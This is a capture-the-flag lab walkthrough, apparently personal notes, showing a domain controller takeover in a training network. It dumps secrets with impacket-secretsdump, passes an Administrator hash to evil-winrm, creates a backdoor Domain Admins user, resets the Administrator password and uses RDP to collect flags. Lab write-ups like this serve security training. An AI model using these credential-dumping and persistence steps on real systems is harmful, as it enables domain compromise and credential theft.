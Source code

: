 
## With svcBackups
Perform the same technique and dump secrets from the CORPDC machine, we will use the `svcBackups` account.

## Dump hashes on the `Server1` machine

$ `proxychains -q /usr/bin/impacket-secretsdump corp.thereserve.loc/svcBackups:'q9nzssaFtGHdqUV3Qv6G'@10.200.113.102`

![[Dumping secrets from CORPDC-20240601064020744.webp]]

Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3d4edcc015856e386074795aea86b3e:::

## Connect using `evil-winrm`

$ `proxychains4 /usr/bin/evil-winrm -u Administrator -H d3d4edcc015856e386074795aea86b3e -i 10.200.113.102`

![[Dumping secrets from CORPDC-20240602155726615.webp]]

You'll get a shell.
Check out the hostname.

Evil-WinRM PS C:\Users\Administrator\Documents> `hostname`

![[Dumping secrets from CORPDC-20240602160026969.webp]]

### Create a new user as an Administrator

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos K41r@s123 /add /domain`

Username: kairos
Password:  K41r@s123

### Enumerate the groups to find the group name for the Administrator user

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group`

![[Dumping secrets from CORPDC-20240604135830320.webp]]

### Add the new user to this group to make him the `Domain Admin`.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net group "Domain Admins" kairos /add /domain`

### Display user's information


The `net user` command is a Windows command-line utility that can be used to display or modify user account information. The `/domain` switch is used with `net user` to specify that the operation should be performed on a domain controller, allowing you to view or change user account information in a domain environment.

Evil-WinRM* PS C:\Users\Administrator\Documents> `net user kairos /domain`

![[Dumping secrets from CORPDC-20240604140856658.webp]]

## RDP to CORPDC

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:kairos /p:K41r@s123` 

### Getting flag 7
[[Flag Submission Process]]


## Change the Administrator's password.
Even though you are a member of Domain Admins group, you can access the Administrator's directoroy.


Evil-WinRM* PS C:\Users\Administrator\Documents> `net user Administrator Hacker@123 /domain`

#### RDP to CORPDC with the Administrator's credentials

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:Administrator /p:Hacker@123` 

### Getting flag 8

[[Flag Submission Process]]


**Next step:** [[Dumping secrets from CORPDC]]


